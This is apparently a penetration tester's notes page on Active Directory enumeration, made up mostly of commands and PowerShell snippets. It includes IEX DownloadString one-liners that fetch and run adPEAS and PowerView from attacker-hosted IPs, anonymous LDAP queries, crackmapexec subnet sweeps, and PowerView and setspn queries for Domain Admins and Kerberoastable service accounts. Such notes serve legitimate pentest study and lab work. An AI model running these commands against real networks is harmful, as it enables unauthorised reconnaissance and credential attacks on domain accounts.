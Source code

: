 # Enumeration

{% embed url="https://en.rattibha.com/thread/1553334438557126657" %}

{% embed url="https://www.thehacker.recipes/" %}

{% embed url="https://tools.thehacker.recipes/" %}

{% embed url="https://github.com/61106960/adPEAS" %}

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/adPEAS.ps1');Invoke-adPEAS -Domain 'domain.com' -Server 'dc01.domain.com'
<strong>or
</strong>Invoke-WebRequest -Uri "http://192.168.45.5/adPEAS.ps1" -OutFile "C:\tmp\adPEAS.ps1"
<strong>Import-Module .\adPEAS.ps1
</strong>Invoke-adPEAS -Domain 'domain.com' -Server 'dc01.domain.com'

#with creds
$SecPassword = ConvertTo-SecureString 'Pass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\johndoe', $SecPassword)
Invoke-adPEAS -Domain 'domain.com' -Cred $Cred

Invoke-adPEAS -Domain 'domain.com' -Server 'dc1.domain.com' -Username 'domain\johndoe' -Password 'pass' -Force
</code></pre>

#### ldap search

{% code overflow="wrap" %}
```
ldapsearch -x -H LDAP://192.168.222.122 -D '' -w '' -b "DC=hutch,DC=offsec" > ldapuser
```
{% endcode %}

#### CME enum network

```
crackmapexec smb 192.168.0.0/24
```

#### PowerView

{% embed url="https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview" %}

{% embed url="https://zflemingg1.gitbook.io/undergrad-tutorials/powerview/powerview-cheatsheet" %}

{% code overflow="wrap" %}
```powershell

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/PowerView.ps1')

Invoke-WebRequest -Uri "http://192.168.45.5/PowerView.ps1" -OutFile "C:\tmp\PowerView.ps1"
Import-Module .\PowerView.ps1

Get-NetDomain #Domain info
Get-DomainController #DC info
Get-NetUser -SPN #Kerberoastable users
Get-NetUser -Domain msp.local | Where-Object {$_.servicePrincipalName}

Get-NetComputer

Get-NetUser
Get-DomainGroupMember "Domain Admins" -Recurse

Get-NetLoggedon -ComputerName <servername> #Get net logon users at the moment in a computer (need admins rights on target)
Get-NetSession -ComputerName <servername> #Get active sessions on the host
```
{% endcode %}

### Tradition

```
net user
net user /domain
net user xxx /domain
net group /domain (pdf p.632 for enum groups)
net group "domain admins" /domain
net localgroup "administrators"

whoami /group
net user /domain
net localgroup /domain
```

### Current domain

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

PdcRoleOwner : DC01.corp.com (primary dc)
Name : corp.com
```

```
nslookup
set type=all
_ldap._tcp.dc._msdcs.sandbox.local
```

```
nmap -sC
```

```
net user /domain (as admin)
```

### Build LDAP provider path

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString

LDAP://DC01.corp.com/DC=corp,DC=com
```

### Search all AD users / specific user

{% code overflow="wrap" %}
```powershell
#$domainObj = dc01.corp.com # if as a local user instead of domain user
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    Write-Host "------------------------"
}
```
{% endcode %}

```
$Searcher.filter="name=Jeff_Admin"
```

### SPN

Find `name` for service account name and `serviceprincipalname` to generate ticket

may save as `.ps1`

{% code overflow="wrap" %}
```powershell
# as a local user
$domainObj = dc01.corp.com
# or as domain user > [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*corp*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
Write-Host "------------------------"
}
```
{% endcode %}

#### alternative

```
setspn -T * -F -Q */* 
setspn -T domain.local -F -Q */* 

setspn -T $env:computername -F -Q */*  (if no domain name)
```

```
nslookup corpweb.corp.comer
```

